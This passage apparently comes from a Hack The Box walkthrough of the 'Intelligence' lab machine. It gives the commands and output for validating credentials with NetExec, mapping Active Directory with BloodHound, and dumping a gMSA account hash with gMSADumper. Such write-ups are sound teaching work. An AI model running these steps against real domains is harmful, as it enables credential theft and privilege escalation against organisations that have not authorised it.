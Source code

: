 NetExec confirms that the credentials are valid.

```bash
netexec smb 10.129.95.154 -u Ted.Graves -p <REDACTED> --shares
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\Ted.Graves:<REDACTED> 
SMB         10.129.95.154   445    DC               [*] Enumerated shares
SMB         10.129.95.154   445    DC               Share           Permissions     Remark
SMB         10.129.95.154   445    DC               -----           -----------     ------
SMB         10.129.95.154   445    DC               ADMIN$                          Remote Admin
SMB         10.129.95.154   445    DC               C$                              Default share
SMB         10.129.95.154   445    DC               IPC$            READ            Remote IPC
SMB         10.129.95.154   445    DC               IT              READ            
SMB         10.129.95.154   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.95.154   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.95.154   445    DC               Users           READ            
```

Running [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) and inspecting the results shows a clear and easy path to Domain Admins.

```bash
bloodhound-python -u Ted.Graves -p <REDACTED> -c all -ns 10.129.95.154 -d intelligence.htb
```

<img src="/assets/img/intelligence/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

To read the Group Managed Service Account password, BH suggests using [gMSADumper](https://github.com/micahvandeusen/gMSADumper). We successfully read the SVC_INT$ machine account hash with the following command.

```
python3 ~/Desktop/tools/gMSADumper/gMSADumper.py -u Ted.Graves -p <REDACTED> -d intelligence.htb -l 10.129.95.154
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::<REDACTED>
svc_int$:aes256-cts-hmac-sha1-96:d514b740f01...
svc_int$:aes128-cts-hmac-sha1-96:12c88420d80...
```
